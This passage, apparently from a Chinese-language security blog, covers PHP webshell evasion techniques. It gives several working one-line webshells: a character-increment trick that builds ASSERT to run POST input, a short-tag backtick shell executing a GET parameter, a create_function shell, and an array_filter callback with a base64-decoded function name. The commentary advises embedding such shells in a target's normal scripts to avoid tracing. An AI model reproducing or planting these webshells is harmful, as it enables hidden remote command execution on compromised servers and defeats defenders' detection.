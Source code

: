 ```php
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;
$_=$$____;
$___($_[req]); // ASSERT($_POST[_]);
```



![img](https://klionsec.github.io/img/array%20spce%20webshell.png)

## 3.特殊的web服务器自身配置

```php
利用短格式来实现免杀,前提需要目标的php配置已经事先开启短格式支持[php.ini有对应的开关],不过一般默认都是没开的,确实比较鸡肋,不实用
short_open_tag = On 
<?=`$_GET[m]`;
```



![img](https://klionsec.github.io/img/short%20spec.png)



## 4.语言特性灵活隐匿webshell

```
具有回调特性的函数其实还有非常多,这里只是简单地列出了一部分,可挖掘的潜力还比较大,大家可对着手册自行深入研究
利用回调的好处除了免杀之外,还有就是,可以很方便我们`直接把自己的shell插到目标的正常脚本代码中`,让其变得更加难以追踪
关于webshell隐藏的更多内容,这里就不细说了,有兴趣大家可以直接去参考博客`webshell隐藏`相关文章,记得很久之前就总结了一篇
```



```php
<?php 
$a = create_function('', @$_REQUEST['req']);$a();
?>
```

![img](https://klionsec.github.io/img/create_function%20common.png)

```php
<?php 
$ah = $_POST['ah'];
$arr = array($_POST['cmd']);
array_filter($arr,base64_decode($ah));
?>
```

